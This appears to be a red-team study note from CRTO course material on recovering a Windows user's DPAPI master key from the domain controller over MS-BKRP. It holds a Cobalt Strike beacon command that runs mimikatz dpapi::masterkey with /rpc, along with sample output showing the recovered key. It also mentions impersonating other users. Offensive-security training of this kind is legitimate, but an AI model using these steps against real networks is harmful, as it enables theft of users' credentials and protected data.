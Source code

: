 
To obtain the master key (without elevation or interaction with LSASS), is to request it from the domain controller via the Microsoft BackupKey Remote Protocol (MS-BKRP).

This is designed as a failsafe in case a user changes or forgets their password, and to support various smart card functionality.

## 🖊️ via Cobalt Strike

```
beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc

[domainkey] with RPC
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
  key : 8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
  sha1: 897f7bf129e6a898ff4e20e9789009d5385be1f3
```

⚠ This will only work if executed in the context of the user who owns the key.  If your Beacon is running as another user or SYSTEM, you must impersonate the target user somehow first, then execute the command using the `@` modifier.


## 📔 Description

- 

##  📗 Action to perform 


### ⚠ Opsec




### Properties
---
📆 created   {{18-02-2024}} 12:06
🏷️ tags: #redteam #crto 

---

